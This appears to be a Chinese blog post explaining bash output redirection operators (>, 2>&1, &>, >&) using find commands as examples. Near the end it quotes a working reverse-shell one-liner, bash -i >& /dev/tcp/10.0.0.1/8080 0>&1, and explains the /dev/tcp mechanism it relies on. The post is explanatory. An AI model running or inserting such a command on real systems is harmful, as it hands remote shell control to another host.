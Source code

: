# [linux bash的重定向](https://www.cnblogs.com/pluse/p/9234344.html)



cnblogs原创

 

下面几种bash重定向各表示什么意思？

``` bash
find / -name passwd > /dev/null
find / -name passwd > /dev/null 2>&1
find / -name passwd 2> /dev/null
find / -name passwd &> /dev/null
find / -name passwd >& /dev/null
```

上面有5种重定向，分别表示：

\1. 将find结果重定向到 /dev/null，这个find结果指的是标准输出，不含标准错误，比如以非root用户身份运行这个命令时，可能会遇到这样问题，如下：

![img](https://images2018.cnblogs.com/blog/733392/201806/733392-20180627154333286-183496882.png)

其中有的是查找到了，有的报错，对应正常查找到的是标准输出，而报错则是标准错误。标准输出与标准错误都是向屏幕输出，区别是有无缓冲，标准错误是不带缓冲的。

这个最终结果是仅输出find错误结果。

 

\2. 将find结果(标准输出)重定向到 /dev/null，同时将标准错误重定向到标准输出。在Linux中，内核默认为每个进程打开3个描述符（标准错误2、标准输出1、标准输入0）。

这个最终结果是什么都不输出。

 

\3. 将find结果(标准错误)重定向到 /dev/null，不含标准输出。

这个最终结果是只输出正常结果，不输出错误结果。

 

4/5. 这两个是相同的，只是不同写法，>&和&>完全相同，它们对位置先后无要求。将find结果(标准输出)重定向到 /dev/null，同时将标准错误重定向到标准输出。>&或者&>等同于> /dev/null 2>&1。为什么会有这种写法？大概原因是bash对csh进行兼容导致的，因为csh的标准输出和标准错误重定向是这种写法。

其实这些在bash manual手册中都是有说明的：

![img](https://images2018.cnblogs.com/blog/733392/201806/733392-20180627160657842-520471457.png) 

 

另外，网上有给出一个反弹shell，如下：

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

重定向语法上面已经解释清楚，这里无非是多了个标准输入的重定向。

使用ls命令发现/dev下面并没有这个tcp目录或者文件，这里的/dev/tcp/10.0.0.1/8000又是什么？同样在bash的manual中有说明，如下：

![img](https://images2018.cnblogs.com/blog/733392/201806/733392-20180627161053375-895690901.png)

从手册中可以看到/dev/tcp/10.0.0.1/8000是bash重定向时，一些特殊的文件而已，ls自然看不到的。

 

PS: 准备在闲暇之余用C++写个反弹shell练手的，遂有了这篇文章。但写完这篇文章之后，发现网上已经有人写过类似的（ https://www.anquanke.com/post/id/85712 ），不过没有解释/dev/tcp/host/port是怎么回事，文章就不删了，留作补充说明吧。



分类: [Unix/Linux](https://www.cnblogs.com/pluse/category/961205.html)